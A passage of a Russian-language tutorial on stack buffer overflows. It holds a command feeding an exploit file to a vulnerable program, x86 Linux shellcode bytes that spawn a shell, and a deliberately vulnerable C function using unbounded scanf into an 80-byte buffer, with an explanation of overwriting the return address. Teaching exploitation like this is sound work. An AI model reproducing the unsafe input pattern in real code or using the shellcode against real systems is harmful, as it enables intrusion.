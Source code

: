 Мы используем скомпилированный файл и подаем созданный эксплойт в качестве входных данных.

```bash
./vulnerable_program < exploit.txt
```

### 5. Внедрение shellcode

Для успешного исполнения мы должны разместить shellcode в памяти и направить адрес возврата на него. В качестве примера простого shellcode, который открывает shell:

```c
// Пример shellcode для x86 Linux unsigned char shellcode[] = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80";
```
### 6. Объединение и тестирование

Комбинируем буфер, адрес возврата и shellcode. В реальной системе это потребует:

- Нахождения точного адреса памяти для размещения shellcode.
- Корректировки значения `new_return_address` в эксплойте на адрес shellcode.


---

# Проникаем глубже 

### Уязвимый код

```c
#include <stdio.h>  
  
void call(){  
  
  char buffer[80];  
  printf("Enter: ");  
  scanf("%s", &buffer);  
  
}    
int main(){  
  
  
  call();  
  
  return 0;  
  
}
```

Так что тут у нас, видим у нас тут функция main() вызывает функцию call(). В фукции call() у нас buffer размером 80-байт. Сначало мы просим пользователя ввести данные, а после мы помещаем данные в buffer. Суть уязвимости переполнение буфера в том что переменная которая находиться в другом функции попадают в стек вместе с дополнительными данными,  а именно адрес возврата.  Если в buffer мы закинем машинный код, перепишем адрес возврата на начало адреса буффера, то код выполниться.
